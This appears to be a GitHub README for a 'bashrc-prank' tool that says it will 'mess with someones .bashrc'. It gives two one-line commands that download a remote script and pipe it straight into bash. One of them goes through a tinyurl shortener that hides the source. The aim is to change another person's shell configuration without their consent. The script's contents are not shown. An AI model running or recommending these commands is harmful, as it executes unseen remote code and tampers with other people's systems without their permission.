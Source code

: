 # bashrc-prank
Mess with someones .bashrc

```bash
curl https://raw.githubusercontent.com/jdamata/bashrc-prank/master/prank.sh | bash
```
OR
```bash
curl -L https://tinyurl.com/qrr2mca | bash
```